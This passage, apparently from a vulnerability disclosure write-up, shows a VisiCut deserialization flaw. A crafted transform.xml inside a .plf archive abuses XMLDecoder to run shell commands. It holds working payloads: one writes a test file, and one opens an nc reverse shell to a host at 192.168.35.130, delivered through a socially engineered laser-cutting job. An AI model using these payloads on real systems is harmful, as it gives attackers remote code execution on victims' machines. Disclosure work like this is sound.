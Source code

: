 ## **Proof-of-Concept: Creating a Malicious Payload**
To demonstrate this vulnerability, I crafted a simple proof-of-concept XML payload that creates and writes to ```/tmp/poc_test.txt``` when loaded into VisiCut:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<java version="1.8.0_181" class="java.beans.XMLDecoder">
  <object class="java.lang.ProcessBuilder">
    <array class="java.lang.String" length="3">
      <void index="0">
        <string>sh</string>
      </void>
      <void index="1">
        <string>-c</string>
      </void>
      <void index="2">
        <string>echo hello > /tmp/poc_test.txt</string> // Create poc_test.txt
      </void>
    </array>
    <void method="start"/>
  </object>
</java>
```

Now, we package this XML file inside a `.plf` archive:

```bash
zip payload.plf transform.xml
```

Once loaded in **VisiCut**, `/tmp/poc_test.txt` is created containing the string ```hello```!

<img src="{{ site.url }}{{ site.baseurl }}/images/CVE-2025-03-06-VisiCut-Opened.JPG" alt="">

Proof string:
<br>
<img src="{{ site.url }}{{ site.baseurl }}/images/CVE-2025-03-06-POC-Test.JPG" alt="">

## **Attack Path: Reverse Shell Execution**
In this attack path, I have modified `transform.xml` to execute a reverse shell.

To delineate a scenario that is not too unrealistic, let's say I have been able to socially engineer a user of VisiCut to open up a _cool, highspeed new laser cutting job_ that I created named ```SuperCool.plf```. This ```.plf``` contains a ```transform.xml``` file containing the following contents that will spawn a reverse shell.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<java version="1.8.0_181" class="java.beans.XMLDecoder">
  <object class="java.lang.ProcessBuilder">
    <array class="java.lang.String" length="3">
      <void index="0">
        <string>sh</string>
      </void>
      <void index="1">
        <string>-c</string>
      </void>
      <void index="2">
        <string>nc -c sh 192.168.35.130 9001</string> // Reverse Shell Code
      </void>
    </array>
    <void method="start"/>
  </object>
</java>

```